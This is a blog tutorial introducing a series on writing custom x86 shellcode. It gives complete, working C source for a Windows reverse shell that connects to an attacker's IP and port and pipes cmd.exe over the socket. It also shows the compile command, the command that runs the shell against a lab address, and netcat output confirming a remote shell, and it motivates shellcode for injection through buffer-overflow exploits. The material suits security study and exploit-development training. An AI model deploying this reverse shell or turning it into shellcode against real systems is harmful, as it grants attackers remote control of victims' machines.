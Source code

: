 [Home](https://plackyhacker.github.io) : [Part 2](https://plackyhacker.github.io/shellcodez/arch) : [Part 3](https://plackyhacker.github.io/shellcodez/assembly)

# Writing Custom Shellcode, Introduction

Ever since doing the original OSCE I have had an interest in assembly code and writing shellcode, here I am sharing what I know hoping that it will help others.

## Assumptions

It is assumed that you know what a reverse shell is and you have a basic ability to read the flow of code. It is not necessary to understand the Win32 API calling conventions, or assembly language - this will be explained in later articles.

Writing shellcode isn't easy, but like any other subject it can be learned! Stick with it, it is extremely rewarding!

## Introduction

This series of articles will show how to write custom shellcode in x86 assembly language, why x86 (32-bit)?

The answer to this question is simple: when you are learning to write or analyse shellcode it is easier to study x86 than x64. The concepts are the same (albeit the instructions and calling conventions might be different), but the memory addresses, and the register sizes are 32-bits in length. Once you have learned x86 shellcode the transition to x64 should be easy.

## Anatomy of a Reverse Shell

Let's begin by looking at a basic reverse shell coded in C. I have heavily commented this code to make it easier to follow.

```c
include <winsock2.h>
#pragma comment(lib, "w2_32")

int main(int argc, char *argv[])
{
  // exit if args aren't provided (local ip/port)
  if(argc < 3) exit(0);

  // A pointer to the WSADATA data structure that is to receive details of the Windows Sockets implementation.
  WSADATA wsaData;
  	
  // If no error occurs, WSASocket returns a descriptor referencing the new socket.
  SOCKET Winsock;
  	
  // structure that specifies the address to which to connect.
  struct sockaddr_in laddr;

  // https://learn.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-wsastartup
  // The WSAStartup function initiates use of the Winsock DLL by a process, here we use v2.2
  WSAStartup(MAKEWORD(2,2), &wsaData);
  	
  // https://learn.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsasocketa
  // The WSASocket function creates a socket that is bound to a specific transport-service provider.
  Winsock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

  // https://learn.microsoft.com/en-us/windows/win32/winsock/sockaddr-2
  // set up a socket addr structure for the local host (attacking machine)
  laddr.sin_family = AF_INET;
  laddr.sin_addr.s_addr = inet_addr(argv[1]);
  laddr.sin_port = htons(atoi(argv[2]));

  // https://learn.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsaconnect
  // The WSAConnect function establishes a connection to another socket application (e.g., the netcat listener)
  WSAConnect(Winsock,(SOCKADDR*)&laddr, sizeof(laddr), NULL, NULL, NULL, NULL);
  
  if (WSAGetLastError() == 0) {
    // https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa
    // Specifies the window station, desktop, standard handles, and appearance of the main window for a process at creation time.
    STARTUPINFO ini_processo;
    
    // https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-process_information
    // Contains information about a newly created process and its primary thread.
    PROCESS_INFORMATION processo_info;
      
    // https://www.tutorialspoint.com/c_standard_library/c_function_memset.htm
    // this function basically sets the ini_processo structure to all 0s
    memset(&ini_processo, 0, sizeof(ini_processo));
      
    // simply specifies the size of the structure
    ini_processo.cb=sizeof(ini_processo);
    // If this flag is specified when calling one of the process creation functions, the handles must be inheritable
    ini_processo.dwFlags=STARTF_USESTDHANDLES;
    
    // here we redirect the stdin, stdout, and stderr handles to the socket handle
    ini_processo.hStdInput = ini_processo.hStdOutput = ini_processo.hStdError = (HANDLE)Winsock;

    // https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa
    // Creates a new process and its primary thread. The new process runs in the security context of the calling process.
    CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &ini_processo, &processo_info);

    // exit
    exit(0);
  } else {
    // exit
    exit(0);
  }
}
```

From a high level the code does four things by using the Win32 APIs:

- `WSAStartup` - Initialises the winsock DLL for use.
- `WSASocket` - Creates a socket object which we can use to connect to a `netcat` listener on an attacking machine.
- `WSAConnect` - Establishes a connection to our `netcat` listener.
- `CreateProcess` - Creates a new `cmd.exe` process and redirects the stdin, stdout, and stderr streams to the winsock object.

The C code can be compiled on a Linux machine using `mingw32`:

```bash
i686-w64-mingw32-g++ -std=c++11 shell.c -o shell.exe -s -lws2_32 -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

We can then run the portable executable on Windows:

```powershell
shell.exe 172.16.245.129 4444
```

This establishes a reverse shell back to the `netcat` listener:

```bash
nc -nvlp 4444 
listening on [any] 4444 ...
connect to [172.16.245.129] from (UNKNOWN) [172.16.245.128] 57270
Microsoft Windows [Version 10.0.19044.1766]
(c) Microsoft Corporation. All rights reserved.

C:\Users\John\Desktop>
```

This is ok, but it has a few problems. It is compiled as a PE (portable executable) file, this means it needs to be dropped to disk and executed, which is not desirable. It cannot be used in a remote exploit, such as a buffer overflow. For this we need shellcode that can be injected into an existing process and does not rely upon the structure of a PE file to execute.

When writing shellcode we need to carry out the same four tasks to establish a reverse shell, but we need to program it in assembly language, which presents us with a different set of problems.

In the next article I will write about the x86 high-level architecture that we need to understand to write shellcode.

[Home](https://plackyhacker.github.io) : [Part 2](https://plackyhacker.github.io/shellcodez/arch) : [Part 3](https://plackyhacker.github.io/shellcodez/assembly)
